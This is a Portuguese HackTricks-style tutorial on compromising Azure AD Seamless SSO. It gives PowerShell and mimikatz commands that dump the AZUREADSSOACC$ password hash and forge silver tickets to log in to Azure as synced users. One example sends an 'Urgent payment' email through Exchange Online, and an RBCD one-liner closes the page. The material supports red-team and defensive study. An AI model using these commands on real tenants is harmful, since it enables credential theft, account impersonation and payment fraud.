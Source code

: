 # Az - Logon Único Sem Costura

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

[Da documentação:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) O Logon Único Sem Costura do Azure Active Directory (Azure AD Seamless SSO) automaticamente **faz login dos usuários quando estão em seus dispositivos corporativos** conectados à sua rede corporativa. Quando habilitado, **os usuários não precisam digitar suas senhas para fazer login no Azure AD**, e geralmente, nem precisam digitar seus nomes de usuário. Essa funcionalidade fornece aos seus usuários acesso fácil às suas aplicações baseadas em nuvem sem a necessidade de componentes adicionais locais.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Basicamente, o Logon Único Sem Costura do Azure AD **faz login dos usuários** quando estão **em um PC associado a um domínio local**.

É suportado tanto por [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto por [**PTA (Autenticação de Passagem)**](pta-pass-through-authentication.md).

O SSO de desktop está usando **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC`$`** no AD local. A senha da conta `AZUREADSSOACC$` é **enviada em texto simples para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD está usando a senha enviada para descriptografar os tickets.

O **Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets Kerberos**. O navegador da máquina associada ao domínio encaminha os tickets para este endpoint para SSO.

### Local -> nuvem

A **senha** do usuário **`AZUREADSSOACC$` nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash dessa conta**, e então usá-lo para **criar tickets silver** para se conectar ao Azure com **qualquer usuário local sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, agora você pode **gerar tickets de prata**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar o "silver ticket", os seguintes passos devem ser executados:

1. **Iniciar o Navegador:** O Mozilla Firefox deve ser lançado.
2. **Configurar o Navegador:**
   * Acesse **`about:config`**.
   * Defina a preferência para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para os [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Acessar a Aplicação Web:**
   * Visite uma aplicação web integrada ao domínio AAD da organização. Um exemplo comum é [Office 365](https://portal.office.com/).
4. **Processo de Autenticação:**
   * Na tela de login, o nome de usuário deve ser inserido, deixando o campo de senha em branco.
   * Para prosseguir, pressione TAB ou ENTER.

{% hint style="success" %}
Isso não contorna a MFA se estiver habilitada.
{% endhint %}

#### ~~Criando tickets Kerberos para usuários exclusivos da nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir o SID para qualquer usuário da nuvem**. Dessa forma, os tickets Kerberos também podem ser **criados para usuários exclusivos da nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores exclusivos da nuvem agora está **bloqueado pela Microsoft**.\
Para mais informações, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nuvem via Delegação Constrainda Baseada em Recurso <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Qualquer pessoa que possa gerenciar contas de computador (`AZUREADSSOACC$`) no contêiner ou Unidade Organizacional em que essa conta está, pode **configurar uma delegação constrainda baseada em recurso sobre a conta e acessá-la**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estou na sua nuvem, lendo e-mails de todos - hackeando o Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
